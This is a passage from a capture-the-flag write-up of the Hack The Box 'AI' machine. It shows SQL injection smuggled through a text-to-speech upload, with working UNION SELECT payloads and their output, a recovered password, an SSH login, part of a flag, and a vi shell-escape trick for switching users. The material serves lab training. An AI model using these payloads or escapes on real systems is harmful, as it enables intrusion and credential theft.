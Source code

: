 I can see below that the script works but unfortunately `quote` doesn't get converted to its character equivalent so I can't inject that way.

```
./tts.sh hello
<h3>Our understanding of your input is : hello<br />Query result : <h3>

./tts.sh quote
<h3>Our understanding of your input is : quote<br />Query result : <h3>
```

By using the word `it's`, the application generates a quote and I can see that we have a MySQL SQL injection here.

```
./tts.sh "its or one equals one Comment Database"
<h3>Our understanding of your input is : it's or 1 = 1 -- -<br />Query result : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 's or 1 = 1 -- -'' at line 1<
```

By using `open single quote` in the audio file, it will generate a single quote and I can use a simple 1=1 condition to return all entries from the database. In this case, the `print("hi")` row is shown.

```
root@kali:~/htb/ai# ./tts.sh "open single quote ore one equals one Comment Database"
<h3>Our understanding of your input is : 'or 1 = 1 -- -<br />Query result : print("hi")<h3>
```

I guessed that the table I had to check out was users and I was able to retrieve the password with the following query: `' UNION SELECT password FROM users -- -`

```
./tts.sh "open single quote union select password from users Comment Database"
<h3>Our understanding of your input is : 'union select password from users -- -<br />Query result : H,Sq9t6}a<)?q93_<h3>
```

Password: `H,Sq9t6}a<)?q93_`

I don't have the username and I can't do a query like `' UNION SELECT username FROM users -- -` because the application will read it as `' UNION SELECT user name FROM users -- -` instead. However before the box was released it was called `Alexa` so I just guessed that the username was Alexa and I was able to SSH in.

```
root@kali:~/htb/ai# ssh alexa@10.10.10.163
alexa@10.10.10.163's password: 

alexa@AI:~$ cat user.txt
c43b62...
```

## Trying to exploit the UID bug

Alexa can run vi as any user except root. There is a well known trick I can use to spawn a shell from within vi with `:!/bin/bash` but since I can't sudo vi as root I can only get access to `mrr3boot`.
